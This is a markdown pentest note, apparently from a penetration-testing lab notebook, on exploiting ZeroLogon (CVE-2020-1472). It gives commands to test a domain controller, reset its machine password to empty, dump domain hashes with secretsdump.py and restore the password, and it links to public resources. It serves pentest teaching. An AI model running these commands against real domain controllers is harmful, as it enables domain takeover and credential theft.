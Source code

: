 # Abusing ZeroLogon

- Attacking DC and setting pass to null and taking over DC **CAREFUL COULD DESTROY DC**
- Check priorly if the target is vulnerable 
  *Note: Useful for a pentest to mention to the customer that they are vulnerable without actually doing the exploitation*
  ```
  ┌──(root💀kali)-[/home/kali/CVE-2020-1472]
  └─# python3 zerologon_tester.py HYDRA-DC 10.0.2.5
  Performing authentication attempts...
  ===================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
  Success! DC can be fully compromised by a Zerologon attack.
  ```
- Changing the password to empty string: `python3 exploit.py HYDRA-DC 10.0.2.5`
- Check if it worked: `secretsdump.py -just-dc DOMAIN/DOMAIN-CONTROLLER\$@IP-OF-DC`
  Example: `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.2.5`
- If we were able to dump hashes without typing password it means we owned the DC.
- Restore the machine
  - Use the admin hash to get the plain_password_hex `secretsdump.py administrator@10.0.2.5 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
  - Restore the password `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.5 -hexpass <Put here the hexpass you just got>`  
    The console should print `Change password OK`
- There is also another way to exploit zerologon without resetting the DC password, check out [Dirk-Jan Mollema's article about this](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

## Zerologon - Resources

  {% embed url="https://lisandre.com/archives/14978" %} Zerologon (CVE-2020-1472) by Lisandre {% endembed %}  
{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %} What is ZeroLogon? {% endembed %}  
{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %} dirkjanm CVE-2020-1472 {% endembed %}  
{% embed url="https://github.com/SecuraBV/CVE-2020-1472" %} SecuraBV ZeroLogon Checker {% endembed %}  
